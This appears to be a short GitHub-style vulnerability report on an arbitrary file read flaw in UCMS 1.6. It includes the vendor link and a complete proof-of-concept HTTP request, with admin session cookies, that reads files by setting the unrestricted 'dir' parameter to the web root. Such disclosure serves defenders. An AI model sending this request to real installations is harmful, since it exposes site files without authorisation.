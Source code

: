 ## UCMS-1.6 has arbitrary file reading vulnerabilities.

vendor: http://uuu.la/

Download link for UCMS-1.6 installation package: http://uuu.la/uploadfile/file/ucms_1.6.zip

When we look at the root directory of the website, we find that there is a 1.txt file, and the content of the txt file is hack by www

![image](https://user-images.githubusercontent.com/54017627/161383064-fab87b30-e8d9-4823-ab1a-654381701592.png)

![image](https://user-images.githubusercontent.com/54017627/161383097-533e44d1-5d37-4c84-b383-230c3edcaf32.png)

We send a request packet to read the file and change the parameter of dir to "/" to read the contents of the 1.txt file. There is no restriction on the parameter of dir here, which leads to the emergence of arbitrary file reading vulnerability.

```
GET /ucms_1.6/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.txt HTTP/1.1
Host: 192.168.1.101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161383175-a80d9c78-203e-404e-ab2e-c79c936f5e39.png)
